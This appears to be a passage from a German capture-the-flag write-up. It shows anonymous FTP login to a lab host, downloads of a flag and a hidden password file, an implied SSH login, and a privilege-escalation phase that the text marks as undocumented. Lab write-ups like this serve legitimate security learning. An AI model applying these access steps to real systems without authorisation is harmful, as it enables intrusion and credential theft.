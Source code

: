 1.  **Anonymer FTP-Zugriff:**
    *   Verbindung mit `ftp 192.168.2.135`.
    *   Login als `Anonymous` mit beliebigem Passwort war erfolgreich.

2.  **Download der ersten Flag:**
    *   `ls` bestätigte die sichtbare `flag.txt`.
    *   `get flag.txt` lud die Datei erfolgreich herunter.
    *   `cat flag.txt` zeigte die erste Flag: `HELL{4N0NYM0U5_15_7H3_B357_U53R}`.

3.  **Entdeckung der Passwortdatei:**
    *   `ls -la` innerhalb der FTP-Sitzung enthüllte die versteckte Datei `.passwd`.
    *   `get .passwd` lud diese Datei erfolgreich herunter.

4.  **Extraktion des Passworts:**
    *   `cat .passwd` zeigte den Inhalt: `The password is: webserver2023!`

5.  **Implizierter nächster Schritt (Nicht im Log dokumentiert):**
    *   Obwohl der Ursprung des Benutzernamens `beilul` im Log nicht erklärt wird, deutet der weitere Verlauf darauf hin, dass ein SSH-Login als `beilul` mit dem Passwort `webserver2023!` erfolgte. Die konkreten Befehle hierfür fehlen.

---

## Phase 3: Privilege Escalation (Nicht dokumentiert)

**Wichtiger Hinweis:** Die spezifischen Schritte, die zur Eskalation von Benutzerrechten (`beilul`) zu Root-Rechten führten, sind im zugrundeliegenden Writeup-Log **nicht enthalten**.

Es wird **angenommen**, dass nach dem erfolgreichen SSH-Login als `beilul:webserver2023!` Methoden wie die Überprüfung von `sudo -l`, die Suche nach SUID/GUID-Binaries, die Analyse von Cronjobs oder die Ausnutzung von Kernel- oder Dienst-Schwachstellen angewendet wurden. Der Erfolg dieser Phase wird lediglich durch das Vorhandensein der finalen Root-Flag am Ende des Berichts impliziert.

---

## Proof of Concept (Anonymous FTP)

**Kurzbeschreibung:** Der FTP-Server auf Port 21 ist unsicher konfiguriert und erlaubt anonymen Lesezugriff auf das Wurzelverzeichnis. Dies ermöglichte das Herunterladen von sensiblen Dateien, einschließlich einer Flag und einer Datei, die ein Klartext-Passwort enthielt.

**Schritte:**
1.  Verbinde dich mit dem FTP-Server:
    ```bash
    ftp 192.168.2.135
    ```
2.  Logge dich als `Anonymous` mit einem beliebigen Passwort ein.
3.  Liste versteckte Dateien auf:
    ```ftp
    ftp> ls -la 
    ```
    *(Zeigt `.passwd` und `flag.txt`)*
4.  Lade die Dateien herunter:
    ```ftp
    ftp> get flag.txt
    ftp> get .passwd
    ftp> quit
    ```
5.  Zeige den Inhalt der Passwortdatei an:
    ```bash
    cat .passwd 
    ```
**Ergebnis:** Zugriff auf die erste Flag und das Passwort `webserver2023!`.

---